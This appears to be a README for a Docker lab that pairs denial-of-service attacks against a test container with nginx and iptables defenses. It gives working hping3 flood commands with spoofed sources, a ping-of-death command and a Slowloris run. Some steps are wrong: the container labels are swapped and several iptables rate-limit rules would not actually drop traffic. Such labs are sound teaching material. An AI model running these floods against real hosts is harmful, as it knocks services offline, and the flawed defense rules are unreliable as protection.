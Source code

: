 1. Create docker network
```bash
docker network create attack-defense-net
```

2. Run defender container

```bash
docker build -t attacker ./attacker
docker run -it --name attacker --network attack-defense-net attacker
```
3. Run attacker container
```bash
docker build -t defender ./defender
docker run -it --name defender --network attack-defense-net -p 8080:80 defender
```

## Attack
Inside attacker container, run the following command to attack defender container
1. Http flood attack
```bash
hping3 --rand-source --flood 172.18.0.2 -p 8000
```
2. TCP SYN flood attack
```bash
hping3 --rand-source -S -q -n --flood 172.18.0.2 -p 8000
```
3. ICMP flood attack
```bash
hping3 --rand-source -1 --flood 172.18.0.2 -p 8000
```
4. Udp flood attack
```bash
hping3 --rand-source --udp --flood 172.18.0.2 -p 8000
```
5. Ping of death attack
```bash
hping3 --icmp -d 65510 -S 172.18.0.2
```
6. Slowloris attack
```bash
python slowloris.py localhost 8000 100
```

## Defense
1. For defending against HTTP flood attack, we can use nginx rate limiting. We can limit the number of requests per second from a single IP address. We can add the following configuration to the nginx configuration file.
```bash
user nginx;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
    worker_connections 1024;
    multi_accept on;
    use epoll;
}

http {
    sendfile on;
    tcp_nopush on;
    tcp_nodelay on;
    keepalive_timeout 65;
    types_hash_max_size 2048;

    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    # Logging settings
    access_log /var/log/nginx/access.log;
    error_log /var/log/nginx/error.log warn;

    # Rate Limiting
    limit_req_zone $binary_remote_addr zone=mylimit:10m rate=10r/s;

    server {
        listen 80;
        server_name _;

        location / {
            root /usr/share/nginx/html;
            index index.html index.htm;

            # Apply rate limiting
            limit_req zone=mylimit burst=20 nodelay;

            # Drop requests with too many args
            if ($args ~* "(&\w+=\w+){10,}") {
                return 444;
            }
        }

        # Protection against common exploits
        location ~* \.(php|jsp|cgi|asp|aspx)$ {
            return 444;
        }

        # Deny access to hidden files
        location ~ /\. {
            deny all;
        }
    }

}
```
2. For defending against TCP SYN flood attack, we can use iptables to limit the number of connections per second from a single IP address. We can add the following rule to the iptables.
```bash
iptables -A INPUT -p tcp --syn --dport 8000 -m connlimit --connlimit-above 10 --connlimit-mask 32 -j REJECT
```
3. For defending against ICMP flood attack, we can use iptables to limit the number of ICMP packets per second from a single IP address. We can add the following rule to the iptables.
```bash
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s -j ACCEPT
```
4. For defending against UDP flood attack, we can use iptables to limit the number of UDP packets per second from a single IP address. We can add the following rule to the iptables.
```bash
iptables -A INPUT -p udp --dport 8000 -m limit --limit 1/s -j ACCEPT
```
5. For defending against Ping of death attack, we can use iptables to limit the size of the ICMP packets. We can add the following rule to the iptables.
```bash
iptables -A INPUT -p icmp --icmp-type echo-request -m length --length 65510:65535 -j DROP
```
6. For defending against Slowloris attack, we can use nginx to limit the number of connections per second from a single IP address. We can add the following configuration to the nginx configuration file.
```bash
http {
    # Limits the time Nginx tries to read the client header
    client_header_timeout 10s;  # Adjust time as needed

    # Limits the time a client has to send a request to the server
    client_body_timeout 10s;

    # Controls how long a keep-alive client connection will stay open on the server side.
    keepalive_timeout 20s;  # Lower this if you do not need long persistent connections

    # The single connection limit
    limit_conn_zone $binary_remote_addr zone=perip:10m;
    limit_conn perip 10;  # Limits the number of connections per IP address

    server {
        listen 80;

        # Apply the connection limit per IP
        limit_conn perip 10;

        location / {
            root /usr/share/nginx/html;
            index index.html index.htm;
        }
    }
}
```
also we can use iptables to limit the number of connections per second from a single IP address. We can add the following rule to the iptables.
```bash
iptables -I INPUT -p tcp --dport 80 -m state --state NEW -m recent --set
iptables -I INPUT -p tcp --dport 80 -m state --state NEW -m recent --update --seconds 60 --hitcount 15 -j DROP

```
## Conclusion
In conclusion, this project demonstrates how to set up a simulated environment for executing and defending against various types of network attacks using Docker, Python, and Nginx. The attacks include HTTP flood, TCP SYN flood, ICMP flood, UDP flood, Ping of Death, and Slowloris. 

The defenses involve techniques such as rate limiting, connection limiting, packet size limiting, and limiting the number of connections per IP address. These defenses are implemented using Nginx configurations and iptables rules.

This project serves as a practical guide for understanding the nature of these attacks and how to mitigate them. It's important to note that the effectiveness of these defenses may vary depending on the specific circumstances and configurations of your network. Always ensure to test and adjust these settings as necessary in a controlled environment before deploying them in a production setting.

Remember, the best defense is a good offense. Understanding these attacks and how they work is the first step in securing your network against them.